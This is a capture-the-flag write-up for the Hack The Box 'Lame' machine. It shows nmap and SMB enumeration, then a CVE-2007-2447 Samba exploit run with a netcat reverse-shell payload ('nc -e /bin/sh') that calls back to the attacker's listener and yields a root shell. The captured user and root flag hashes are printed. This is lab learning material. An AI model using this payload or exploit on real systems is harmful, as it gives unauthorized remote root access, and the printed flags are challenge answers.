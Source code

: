 ## Basic Nmap Scan:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Lame]
└─$ nmap 10.129.42.176 -T4  -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-15 11:02 +0545
Nmap scan report for 10.129.42.176
Host is up (0.28s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 15.05 seconds
```

## FTP Anonymous Login:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Lame]
└─$ ftp 10.129.42.176                                                                                                
Connected to 10.129.42.176.
220 (vsFTPd 2.3.4)
Name (10.129.42.176:parallels): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.

```
Found nothing interesting in FTP.

## SMB Enumeration with Nmap:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Lame]
└─$ nmap 10.129.42.176 -T4 -p445 -Pn -sV -sC
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-15 11:06 +0545
Nmap scan report for 10.129.42.176
Host is up (0.29s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-12-15T00:22:26-05:00
|_clock-skew: mean: 2h30m24s, deviation: 3h32m10s, median: 22s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.41 seconds
```

Now we know that the SMB version is 3.0.20-Debian. Let's search for any exploit for this version.
Quick google search leads us to https://github.com/Ziemni/CVE-2007-2447-in-Python

## Exploiting SMB:

```bash
──(parallels㉿V35HR4J)-[~/tjnull/Lame/CVE-2007-2447-in-Python]
└─$ python3 smbExploit.py 10.129.42.176 445 'nc -e /bin/sh 10.10.14.23 1234'
[*] Sending the payload
```

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ rev 1234
python3 -c 'import pty;pty.spawn("/bin/bash")'
listening on [any] 1234 ...
10.129.42.176: inverse host lookup failed: Unknown host
connect to [10.10.14.23] from (UNKNOWN) [10.129.42.176] 55821
whoami
root
cat `find / -name user.txt`
b2cb374131daec3fd21ed8db208ff5ff
cat `find / -name root.txt`
9cdfa56de6c1c8a7d90a92af0aa61cfa
```
# Takeaway from Lame:
- Don't forget to enumerate the version of the service, anonymous login on FTP and readable shares on SMB was just a rabbithole.